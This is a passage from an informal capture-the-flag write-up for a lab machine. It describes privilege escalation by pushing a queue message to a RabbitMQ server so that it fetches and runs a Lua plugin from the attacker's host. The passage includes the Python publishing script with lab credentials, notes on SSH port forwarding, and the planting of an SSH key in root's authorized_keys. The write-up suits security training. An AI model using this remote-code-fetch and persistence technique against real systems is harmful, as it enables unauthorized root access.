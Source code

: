 Isn't it sweet ? You see it ?? the creds and the password lol :))
OKKKK let's gather the informations I need to penetrate into that shit, The server use Cubernite and apparently it allows us to write lil plugins in LUA, sweet then I'll have to write a lua plugins  
RabbitMQ is made for ascii exchange and so I just have to add the url of my lua plugins to the queue and it should add it and exec it !  
I got the main point let's do this!  

Let's first make this with a sample plugin who'll just create a file with text in it:

```lua
local file=io.open("/tmp/Rom1.txt","wb+");
file:write("I'M ONCE AGAIN IN THE MATRIX JOHNNY !!");
io.close(file);
```

Now let's create a script to send this file to the amqp queue
On the official RabbitMQ hello world page they show us how to use [pika](https://github.com/pika/pika) so let's do the same!  
Here is my sweety code: 

```py
import pika

creds = pika.PlainCredentials('yuntao','EashAnicOc3Op')
params = pika.ConnectionParameters('10.10.10.190',5672,'/',creds)

connect = pika.BlockingConnection(params)

ch = connect.channel()
ch.basic_publish(exchange='plugin_data', body='http://10.10.14.124:8000/plug.lua')
connect.close()
```

Once done I can setup a python server on the specified port and send my request to the queue
Buuut it doesn't looks like it works and I think this is because, RabbitMQ is not allowed to grab out of his own space, like protected by a firewall or stg, so what i'll do is port fowarding ! (as I can send it via ssh)
And I run my script again and booom my server tells me that I got a request !!
And if I have a look I can see my file freshly created with root rights, what could I do then ??
Let's add my public ssh key to root authorized_keys!!

Once it's done, imma just ocnnect via ssh and get my root.txt
AND BOOOMMMM FINISHED IT

TBH, I'm pretty prouf of it as it is my first really hard box and I just had sooo much fun while doing it so thx a lot to felamos and yuntao for this box! !  
